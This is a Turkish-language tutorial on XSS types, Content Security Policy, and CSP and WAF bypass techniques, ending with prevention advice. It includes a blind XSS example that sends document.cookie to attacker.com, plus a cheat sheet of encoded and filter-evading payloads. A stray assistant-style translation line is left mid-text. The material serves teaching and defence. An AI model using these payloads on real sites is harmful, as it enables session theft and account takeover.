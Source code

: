 # XSS (Cross-Site Scripting)
XSS açıkları, saldırganın kurban kullanıcı gibi davranmasına, kullanıcının yapabileceği tüm işlemleri gerçekleştirmesine ve kullanıcıya ait verilere erişmesine olanak tanır. Eğer kurban kullanıcı uygulama içinde ayrıcalıklı yetkilere sahipse, saldırgan uygulamanın tüm işlevselliği ve verileri üzerinde tam kontrol sağlayabilir.

XSS, güvenlik açığı bulunan bir web uygulamasının kullanıcıya kötü amaçlı JavaScript kodu döndürmesi ile ortaya çıkar. Bu kod kurbanın tarayıcısında çalıştığında, saldırgan kurbanın uygulama ile olan etkileşimini tamamen ele geçirebilir.

## XSS Türleri
Üç ana XSS türü vardır:

* Reflected XSS – Kötü amaçlı script, mevcut HTTP isteğinden gelir.
* Stored XSS – Kötü amaçlı script, veritabanı gibi kalıcı bir depodan gelir.
* DOM-based XSS – Açık, sunucu tarafında değil istemci tarafındaki JavaScript kodunda bulunur.
* Blind XSS – Kötü amaçlı script, doğrudan kullanıcıya görünmeden genellikle yönetici panelleri, log dosyaları veya arka uç sistemlerinde tetiklenir ve saldırgan, payload’un çalıştığını bir call-back mekanizmasıyla gözlemler.

## Reflected XSS
Reflected XSS, kullanıcının girdiği verinin sunucuya ulaştıktan sonra herhangi bir filtreleme veya sanitizasyon yapılmadan HTTP yanıtına dahil edilmesiyle oluşur.

Bu açık Non-Persistent olarak sınıflandırılır; sayfa kapatıldığında veya yenilendiğinde saldırı etkisiz hale gelir.

Örnek:
```html
https://insecure-website.com/status?message=All+is+well
<p>Status: All is well.</p>
```

Saldırgan URL’yi şu şekilde değiştirebilir:
```html
https://insecure-website.com/status?message=<script>alert('XSS')</script>
```

Kurban bu bağlantıya tıkladığında, script tarayıcıda kurbanın oturumu bağlamında çalışır.

## Stored XSS
Stored XSS (Persistent XSS), saldırganın enjekte ettiği kodun kalıcı olarak depolanması ve her görüntülendiğinde çalışması durumunda oluşur. Bu veri, veritabanına, loglara veya başka kalıcı depolama alanlarına kaydedilebilir.

Stored XSS en tehlikeli XSS türüdür; çünkü sayfayı ziyaret eden her kullanıcı saldırıdan etkilenir. Ayrıca genellikle manuel müdahale olmadan temizlenemez.

Örnek:
```html
<p>Hello, this is my message!</p>
```

Saldırgan şu şekilde veri gönderebilir:
```html
<p><script>alert('XSS')</script></p>
```

Bu içerik veritabanına kaydedilir ve her görüntülendiğinde çalışır.

## Blind XSS 
Blind XSS, saldırganın payload’unun doğrudan kullanıcıya görünmeden, genellikle yönetici panelleri veya log sistemleri gibi arka planda çalışan alanlarda tetiklenmesiyle ortaya çıkar. Payload çalıştığında saldırgan, bir call-back mekanizmasıyla (ör. Burp Collaborator) tetiklemeyi gözlemler. Blind XSS için tipik bir payload, tetiklendiğinde saldırganın kontrolündeki bir sunucuya HTTP isteği gönderen basit bir JavaScript olabilir.
Örnek:

```html
<script src="https://attacker.com/collect.js"></script>
```

veya doğrudan bir fetch ile:

```html
<script>
fetch('https://attacker.com/log?cookie=' + document.cookie);
</script>
```

Bu payload, kullanıcıya görünmeden arka planda çalışır ve saldırganın sunucusuna veri gönderir.

## DOM-based XSS
DOM-based XSS, tamamen istemci tarafında (client-side) çalışan JavaScript kodunun kullanıcı girdisini filtrelemeden DOM’a yazması ile ortaya çıkar. Bu tür XSS, sunucuya gönderilen veri üzerinden değil, tarayıcıdaki Document Object Model (DOM) manipülasyonu ile tetiklenir.

Örnek:
```js
var search = document.getElementById('search').value;
var results = document.getElementById('results');
results.innerHTML = 'You searched for: ' + search;
```

Eğer saldırgan `search` alanının değerini kontrol edebiliyorsa şu payload çalışabilir:

```html
<img src=1 onerror="alert('XSS')">
```

### Source & Sink
DOM-based XSS’i anlamak için Source ve Sink kavramlarını bilmek önemlidir:

* Source: Kullanıcı girdisini alan JavaScript nesnesi (örn. URL parametresi, form input’u).
* Sink: Kullanıcı girdisini DOM’a yazan fonksiyon. Eğer filtrasyon yapılmazsa XSS oluşur.

Sık kullanılan Sink fonksiyonları:
```javascript
document.write()
element.innerHTML
element.outerHTML
```

jQuery’de sık kullanılan Sink fonksiyonları:
```javascript
add()
after()
append()
```

Bu fonksiyonlar girdiyi doğrudan DOM’a yazarsa ve giriş doğrulaması yapılmazsa sayfa XSS’e açıktır.

## Content Security Policy
Content Security Policy (CSP), Cross-Site Scripting (XSS), clickjacking gibi belirli istemci tarafı saldırılarını tespit etmek ve sınırlandırmak için ek bir korumadır. Sunucu seviyesinde yapılandırılır. Yöneticiler, bir sayfa yüklendiğinde tarayıcıların uyması gereken kuralları tanımlar. Örneğin, hangi kaynaklardan script, resim veya diğer kaynakların yüklenebileceğini belirleyebilirler.

CSP iki şekilde tanımlanabilir:
- Sunucu yanıtına Content-Security-Policy HTTP header’ı ekleyerek.
- HTML sayfalarında <meta> etiketi kullanarak.

### Content Security Policy’nin Ana Direktifleri
Bir CSP, directive adı verilen kurallardan oluşur. Her direktif, belirli kaynakların yüklenmesi ve çalıştırılması için kısıtlamalar tanımlar.

#### Directive türleri:
- Fetch directives → Tarayıcıya verilerin nasıl yükleneceğini söyler.
- Diğer direktifler → Tarama, belge ve raporlama gibi ek güvenlik kontrolleri içerir.

#### Fetch directives
- default-src → Başka bir direktif tanımlanmazsa varsayılan kaynak.
- script-src → JavaScript ve WebAssembly için geçerli kaynaklar.
- script-src-elem → <script> tag’leri için geçerli kaynaklar (yoksa script-src kullanılır).
- frame-src → <frame> ve <iframe> için geçerli kaynaklar.
- img-src → Görseller için geçerli kaynaklar.
- style-src → CSS dosyaları için geçerli kaynaklar.
- font-src → Fontlar için geçerli kaynaklar.

#### Diğer önemli direktifler
- sandbox → İçeriği izole eden sandbox modunu aktif eder (<iframe> gibi).
- require-trusted-types-for → DOM tabanlı XSS saldırılarını sınırlamak için “trusted types” kullanımını zorunlu kılar.
- trusted-types → Sadece izin verilen “Trusted Types” tanımlarını çalıştırır.
- upgrade-insecure-requests → HTTP isteklerini otomatik olarak HTTPS’e çevirir.
- frame-ancestors → <frame>, <iframe>, <object>, <embed> ve <applet> için izin verilen kaynakları sınırlar.
- form-action → Formların gönderilebileceği URL’leri sınırlar.
- base-uri → <base> etiketi için geçerli kaynakları sınırlar.

#### Fetch Directives için Olası Değerler
- 'none' → Kaynağı tamamen engeller.
- 'self' → Yalnızca aynı origin’den yükleme yapılmasına izin verir.
- [host-source] → Özel bir domain veya IP tanımlar.
- [scheme-source] → Belirli bir protokole izin verir (https:, data:, ws:, vb.).
- → Herhangi bir alt domain, host veya port’a izin verir.
- 'nonce-[değer]' → Sunucu tarafından her yanıt için üretilen rastgele bir nonce değeri.
- 'unsafe-eval' → eval() gibi metin tabanlı JavaScript çalıştırılmasına izin verir.
- 'unsafe-inline' → Inline script, event attribute (onclick) ve javascript: URL’lerine izin verir.
- Yanlış yapılandırılmış değerler, özellikle XSS saldırılarına kapı açabilir.

### Content Security Policy Örneği
Sunucu, tarayıcıya CSP’yi HTTP yanıtında iletebilir:
```http
Content-Security-Policy: default-src 'self'; script-src 'self' https://*.example.com; object-src 'none'; img-src 'self' data: *.example.com;
```

Bu konfigürasyon:
- default-src 'self' → Tanımsız tüm kaynak türleri sadece aynı origin’den yüklenir.
- script-src 'self' https://*.example.com → Sadece example.com alt domainlerinden script yüklenir.
- object-src 'none' → <object> ve <embed> tamamen yasak.
- img-src 'self' data: .example.com → Görseller sadece self, data: şeması ve example.com alt domainlerinden yüklenebilir.

### CSP Bypass Teknikleri
#### unsafe-inline kullanımı
```http
Content-Security-Policy: default-src 'none'; script-src 'unsafe-inline';
```

Bu durumda inline script’ler çalışabilir:
```js
<script>alert(1);</script>
```

#### unsafe-eval kullanımı
```http
Content-Security-Policy: default-src 'none'; script-src 'unsafe-eval' data:;
```

eval() veya Function() çağrıları yapılabilir. Ayrıca data: şemasıyla Base64 kodlu script çalıştırılabilir:
```js
<script src="data:;base64,YWxlcnQoMSk="></script>
```

#### script-src'de wildcard (*) kullanımı
```http
Content-Security-Policy: default-src 'none'; script-src https://example.com *;
```

Saldırgan kendi sunucusundan script yükleyebilir:
```js
<script src="https://evil.example.at"></script>
```

### object-src ve default-src eksikliği
```http
Content-Security-Policy: script-src 'self'; img-src 'self';
```

```<object>``` etiketi ile Base64 kodlu zararlı script yüklenebilir:
```js
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
```

#### JSONP endpoint istismarı
```http
Content-Security-Policy: default-src 'none'; script-src https://hello.example.com/test.js https://accounts.google.com/o/oauth2/revoke;
```

İzin verilen domainlerde JSONP endpoint varsa callback parametresi ile XSS yapılabilir:
```url
https://accounts.google.com/o/oauth2/revoke?callback=alert(1)
```
## WAF Bypass
Tabii, verdiğin içeriği teknik terimlerini koruyarak Türkçeye çevirebilirim:

---

## WAF Bypass Teknikleri

### String Kodlama (String Encoding)

#### Base64 Kodlama:
```javascript
btoa("alert(1)");  // Base64'e kodlar
atob("YWxlcnQoMSk=");  // Base64'ten tekrar "alert(1)" olarak çözer
```

#### Octal ve Heksadesimal Kodlama:
```javascript
\\141\\154\\145\\162\\164(1);  // "alert(1)" için sekizlik
\\x61\\x6c\\x65\\x72\\x74(1);  // "alert(1)" için hex
```

#### Unicode Escaping:
```javascript
al\\u0065rt(1);  // Unicode kullanarak "alert(1)"
```

#### Decimal Kodlama:
```javascript
String.fromCharCode(97, 108, 101, 114, 116)(1);  // "alert(1)" çıktısı
```

#### String Birleştirme:
```javascript
var a = "al";
var b = "ert(1)";
a.concat(b);  // "alert(1)" çıktısı
```

### Parantez Engellerini Bypass Etme
Bazı WAF’ler parantez veya alert() gibi belirli fonksiyonları engeller. Alternatifler:

#### Backtick Kullanımı:
```javascript
alert`1`;  // Parantez kullanmadan alert
```

#### Event Handler Kullanımı:
```html
<img src="nonexistent.jpg" onerror="alert(1); throw 'Error';">
```

#### Throw Syntax Kullanımı:
```javascript
throw onerror=alert, "aaaa", "bbbb";
```

### Fonksiyon Kara Listeleri ve Alternatifler
Eval() engellenmişse, aynı etkiyi sağlayacak alternatifler kullanılabilir:

```javascript
// Engellenmiş: eval("alert(1)");
// Alternatifler:
setTimeout("\\x61\\u{65}\\162t(2)");
setInterval("\\x61\\u{65}\\162t(2)");
Function("alert(2)")``;
Function("alert(2)")();
(Function("alert(2)"))();
Function("alert(1)")();  // eval kullanmadan
```

#### Unicode ile Fonksiyon Çağrısı:
```javascript
\\x61\\u{65}\\162t(2);  // alert(2) ile aynı
```

### Dot Notation ve window Engellerini Bypass Etme
Dot notation (ör. `document.cookie`) engellenmişse köşeli parantez kullan:

```javascript
document["cookie"];  // document.cookie yerine
```

Window kullanımını engelleyen WAF’ler için alternatifler:
```javascript
top;    // window.alert yerine
self;   // self veya top kullan
frames; // frames veya parent
parent;
this;
```

#### Array Kullanımı:
```javascript
[20].find(alert);   
[document.cookie].find(prompt);
```

#### Gelişmiş Array Metodları:
```javascript
[document.cookie].forEach(prompt);  
[document.cookie].filter(alert);    
[document.cookie].map(alert);
```

#### Global Object Bypass:
```javascript
globalThis;  
globalThis ;
```

### Tag Kapatma
HTML’de çalıştırılamayan tag’leri kapatıp payload ekleme:

```html
<style>/* CSS, script çalışmaz */</style><script>alert(1)</script>
<title>Page Title</title><script>alert(1)</script>
<noembed>Fallback content</noembed><script>alert(1)</script>
<template>This is template content</template><script>alert(1)</script>
<noscript>Content when JS disabled</noscript><script>alert(1)</script>
<textarea>User entered text</textarea><script>alert(1)</script>
<!-- HTML Comment --> <script>alert(1)</script>
```

### iframe ile Payload

```html
<iframe src="data:text/html, <svg onload=alert(2)>">
<iframe src="data:text/html;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+"></iframe> <!-- alert(2) -->
```

## XSS Saldırılarını Önlemek
CSP, XSS gibi zafiyetlerin kötüye kullanılmasını sınırlayan veya önleyen ek bir koruma katmanı sağlar. Bu saldırılara karşı ilk savunma hattı hâlâ input validation ve output encoding yöntemleridir. Genel olarak, CSP aşağıdaki noktalar dikkate alınmalıdır:

* Restriktif bir default-src direktifi tanımlayın.
* Sıkı bir object-src direktifi uygulayın (ideal olarak none).
* unsafe-eval ve unsafe-inline değerlerinden kaçının. Genel kural olarak, ‘unsafe’ içeren direktifleri yasaklayın; yalnızca etkilerini tam olarak anladığınızda izin verin.
* Harici sunuculardan script yüklemeye izin vermeyin.
* Wildcard (*) kullanımını en aza indirin.
* Güvenliği güçlendirmek için nonce kullanın.
* CSP’nizin sağlamlığını özel araçlar kullanarak test edin
